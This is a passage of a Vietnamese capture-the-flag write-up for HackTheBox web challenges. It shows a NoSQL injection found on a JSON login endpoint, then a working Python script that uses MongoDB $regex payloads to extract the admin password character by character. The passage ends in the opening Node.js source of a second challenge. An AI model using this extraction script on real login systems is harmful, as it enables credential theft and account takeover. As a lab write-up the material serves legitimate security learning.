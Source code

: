 - Thử chuyển thành application/json thì vẫn nhận:

![image](https://hackmd.io/_uploads/By0uumh8A.png)

- Vậy thì khả năng cao sẽ là nosqli:

![image](https://hackmd.io/_uploads/rkzpd73IR.png)

- Thử một cái được luôn -> vấn đề là làm sao để dumb được password của admin -> DÙNG regex để check password của admin:

```
import requests
import string
import json
url = "http://94.237.59.63:45903/api/login"
headers = {'Content-type': 'application/json', 'Accept': 'text/plain'}
possible_chars = list(string.ascii_letters) + list(string.digits) + ["\\"+c for c in string.punctuation+string.whitespace ]
def get_password(username):
    print("Extracting password of "+username)
    password = "HTB{"
    while True:
        for c in possible_chars:
            payload = {"username": "admin","password":  {"$regex":password+c+ ".*" }}
            pr = requests.post(url ,data=json.dumps(payload), headers=headers)
            if "admin" in pr.text:
                password += c
                print(password)
                break
    if c == possible_chars[-1]:
        print("Found password "+password[0:].replace("\\", "")+" for username "+username)
get_password("admin")
```

![image](https://hackmd.io/_uploads/Skpr07hIA.png)


flag : `HTB{th3_4l13ns_h4v3nt_us3d_m0ng0db_I_gu3ss!}`

## emoji voting

- Tiếp tục một chall với nodejs:

```

const express       = require('express');
const app           = express();
const bodyParser    = require('body-parser');
const routes        = require('./routes');
const path          = require('path');
const Database      = require('./database');

const db = new Database('emoji-voting.db');

app.use(bodyParser.json());
app.use(bodyParser.urlencoded({
    extended: true
}));
app.set('views', './views');
app.use('/static', express.static(path.resolve('static')));

app.use(routes(db));

app.all('*', (req, res) => {
    return res.status(404).send({
```